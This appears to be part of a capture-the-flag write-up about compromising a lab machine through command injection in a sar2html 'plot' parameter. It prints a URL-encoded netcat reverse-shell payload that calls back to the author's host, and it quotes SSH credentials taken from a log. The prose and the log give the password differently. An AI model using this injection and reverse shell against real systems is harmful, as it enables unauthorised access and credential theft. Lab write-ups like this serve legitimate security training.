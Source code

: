 On navigation to this directory, I found `VjJodmNITnBaU0JrWVdsemVRbz0K`.

And ran `hashid` against this, which returned no hash ID. Instead I'll attempt a `base64 -d` decode as this worked on previous encrypted strings. 

```
kali@kali:~$ echo VjJodmNITnBaU0JrWVdsemVRbz0K | base64 -d | base64 -d
Whopsie daisy
```

Potentially another rabbit hole.

## _database 

Some caesar cipher rabbit hole.

## _test

After a few hours of enumerating; I eventually found `http://10.10.196.235/joomla/_test/index.php?plot=NEW`

And notably, the only changing the `plot=` get parameter on the URL would return a different text block on page. This may be vulnerable to remote code execution.

I tried injecting `<?php system('ls -lah)';?>` but the code was commented on return.

After some tinkering, I found that `plot` actually takes direct shell execution commands. And after running `http://10.10.196.235/joomla/_test/index.php?plot=;%20ls%20-lah` I found the directory listing was visible from the _Select Host_ drop down menu. Here `log.txt` and `index.php` were visible.

## [Task 2] Questions #2

Now we've got an RCE vulnerability, lets try get reverse shell.

Inititally the reverse `netcat` shell did not work, but instead, on URL encoding it _did_ fire.

```
http://10.10.196.235/joomla/_test/index.php?plot=;rm%20%2ftmp%2ff%3bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh%20-i%202%3e%261%20%7c%20nc%2010.11.8.219%204444%20%3e%2ftmp%2ff
```

And we get shell.

```console
kali@kali:~$ nc -lvp 4444
listening on [any] 4444 ...
10.10.196.235: inverse host lookup failed: Unknown host
connect to [10.11.8.219] from (UNKNOWN) [10.10.196.235] 34372
/bin/sh: 0: can't access tty; job control turned off
$ 
```

On shell, I ran `cat` on log.txt and found credentials for `basterd`, password `superduperp@ss`

```console
$ ls
index.php
log.txt
sar2html
sarFILE
$ cat log.txt
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
```